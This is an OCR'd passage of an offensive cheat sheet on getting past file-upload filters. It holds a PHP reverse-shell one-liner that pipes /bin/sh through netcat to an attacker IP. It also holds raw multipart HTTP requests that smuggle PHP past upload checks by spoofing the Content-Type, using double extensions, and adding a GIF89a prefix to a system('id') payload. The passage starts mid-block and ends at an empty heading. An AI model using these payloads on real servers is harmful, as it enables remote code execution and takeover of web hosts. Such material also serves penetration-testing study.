 ```
      echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
      echo '?>' >> shell.php.png

- All at the same time.
```
### Change the ContentType
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

############################################################################

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```
### Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php

############################################################################

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
### Upload the payload, but start with GIF89a;
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
### Bypass getimagesize()
```
```